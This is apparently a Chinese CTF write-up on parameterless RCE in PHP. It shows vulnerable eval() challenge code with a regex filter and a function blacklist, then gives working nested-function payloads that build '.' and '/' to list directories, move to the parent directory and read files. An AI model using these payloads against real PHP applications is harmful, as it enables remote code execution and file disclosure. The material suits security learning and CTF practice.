 # 关于CTF当中的无参数RCE

最近打了一场校内的比赛，又遇到了无参数RCE。

所以记录一下无参数rce的做法

## 什么是无参数

首先先看这个正则表达式`/[^\W]+\((?R)?\)/`

这个正则是对`()`的一个循环匹配，从传过来的参数当中进行匹配，匹配字母、数字、下划线，然后再匹配一个循环的`()`，将匹配的替换为空，判断剩下的是否只剩下`;`。

也就是说括号当中不能含有参数，这就是无参数。

## 例一：

```php
<?php
if(';' === preg_replace('/[^\W]+\((?R)?\)/', '', $_GET['code'])) {    
    eval($_GET['code']);
} else {
    show_source(__FILE__);
}
?> 
```

这道题就是一道无参数RCE的题，只是没有对函数进行过滤

无参数的题最重要的就是如何构造出`.`

**localeconv()**

localeconv() 函数返回一包含本地数字及货币格式信息的数组，且第一个元素为点（.)。

![image-20210410180114692](https://lamcheukwing.oss-cn-shenzhen.aliyuncs.com/img/image-20210410180114692.png)

**pos()**

pos() 函数返回数组中的当前元素的值（取第一个元素）。

![image-20210410180209879](https://lamcheukwing.oss-cn-shenzhen.aliyuncs.com/img/image-20210410180209879.png)

这样就构造出`.`来了

**scandir()**

scandir() 函数返回指定目录中的文件和目录的数组。

![image-20210410180639310](https://lamcheukwing.oss-cn-shenzhen.aliyuncs.com/img/image-20210410180639310.png)

这样就可以查看目录下的文件了

```
?code=var_dump(scandir(pos(localeconv())));
```

![image-20210410181254178](https://lamcheukwing.oss-cn-shenzhen.aliyuncs.com/img/image-20210410181254178.png)

再利用end函数就可以将数组指针指向最后

![image-20210410181406631](https://lamcheukwing.oss-cn-shenzhen.aliyuncs.com/img/image-20210410181406631.png)

**读取文件**

readfile — 输出文件

highlight_file — 语法高亮一个文件

show_source — 别名highlight_file()

file_get_contents — 将整个文件读入一个字符串

**readgzfile（）**可用于读取非gzip格式的文件。在这种情况下， **readgzfile（）**将直接从文件读取而不进行解压缩。

## 例二：

```php
<?php
if ($login && isset($_GET['code'])) {
    if (';' === preg_replace('/[^\W]+\((?R)?\)/', '', $_GET['code'])) {
        if (!preg_match('/highlight_file|localeconv|pos|curret|chdir|localtime|time|session|getallheaders|system|array|implode/i', $_GET['code'])) {
            eval($_GET['code']);
        } else {
            echo "含有危险函数" . "<br/>";
        }
    } else {
        echo "不符合正则表达式" . "<br/>";
    }
}
?>
```

这一题过滤掉了很多的函数

不能用`localeconv`来构造`.`了

**chr()**

chr() 函数从指定的 ASCII 值返回字符。

利用这个函数只要构造出`46`来就可以构造出`.`了

![image-20210410193718817](https://lamcheukwing.oss-cn-shenzhen.aliyuncs.com/img/image-20210410193718817.png)

phpversion()会返回php版本，如`5.6.27`

`floor(phpversion())`返回`5`

`sqrt(floor(phpversion()))`返回`2.2360679774998
`

`tan(floor(sqrt(floor(phpversion()))))`返回`-2.1850398632615`

`cosh(tan(floor(sqrt(floor(phpversion())))))`返回`4.5017381103491`

`sinh(cosh(tan(floor(sqrt(floor(phpversion()))))))`返回`45.081318677156`

`ceil(sinh(cosh(tan(floor(sqrt(floor(phpversion())))))))`返回`46`

即：`chr(ceil(sinh(cosh(tan(floor(sqrt(floor(phpversion()))))))))`等于`.`

还有一个方法也可以构造出`.`来

```
chr(ord(hebrevc(crypt(phpversion()))))`返回`.
```

- `hebrevc(crypt(arg))`可以随机生成一个hash值 第一个字符随机是 $(大概率) 或者 .(小概率) 然后通过ord chr只取第一个字符

**crypt()**：单向字符串散列，返回散列后的字符串或一个少于 13 字符的字符串，从而保证在失败时与盐值区分开来。

**hebrevc()**：将逻辑顺序希伯来文（logical-Hebrew）转换为视觉顺序希伯来文（visual-Hebrew），并且转换换行符，返回视觉顺序字符串。

不过这个办法不是每一次都能构造出来

![image-20210410194214795](https://lamcheukwing.oss-cn-shenzhen.aliyuncs.com/img/image-20210410194214795.png)

![image-20210410194224286](https://lamcheukwing.oss-cn-shenzhen.aliyuncs.com/img/image-20210410194224286.png)

需要多试几次才行

## 其他构造方法

- 利用三角函数构造斜杠

```
chr(floor(tan(tan(atan(atan(ord(cos(fclose(tmpfile())))))))));
```

- 利用随机令牌构造点

```none
echo(implode(scandir(chr(strrev(uniqid())))));
```

- 利用当前秒数构造点

```
chr(pos(localtime()));
```

## 其他情况

如果文件不在数组的最后，而是在别的位置则可以利用这些函数

`array_rand()`-返回数组中的随机键名，或者如果您规定函数返回不只一个键名，则返回包含随机键名的数组。

`array_reverse()`-以相反的元素顺序返回数组

`current() `- 返回数组中的当前元素的值

`end()`- 将内部指针指向数组中的最后一个元素，并输出

`next()`- 将内部指针指向数组中的下一个元素，并输出

`prev() `- 将内部指针指向数组中的上一个元素，并输出

`reset()` - 将内部指针指向数组中的第一个元素，并输出

`each() `- 返回当前元素的键名和键值，并将内部指针向前移动

`array_flip()`-用于反转/交换数组中所有的键名以及它们关联的键值。

`hex2bin` 转换十六进制字符串为二进制字符串



- 假设flag在上层目录文件的情况，我们需要跳转到上层目录。
- `chdir()`函数当参数为两个点的时候能够跳转到上层目录。`scandir()`，读取当前目录在第二个元素就能读取两个点
- localtime第一个参数是时间戳，所以我们不能直接嵌套，需要带一个time函数作为嵌套、time函数能够返回时间戳
- 构造读取上层目录payload

```
echo(implode(scandir(chr(pos(localtime(time(chdir(next(scandir(pos(localeconv())))))))))));
```

- 构造读取上层目录文件payload

```
echo(readfile(end(scandir(chr(pos(localtime(time(chdir(next(scandir(pos(localeconv()))))))))))));
```


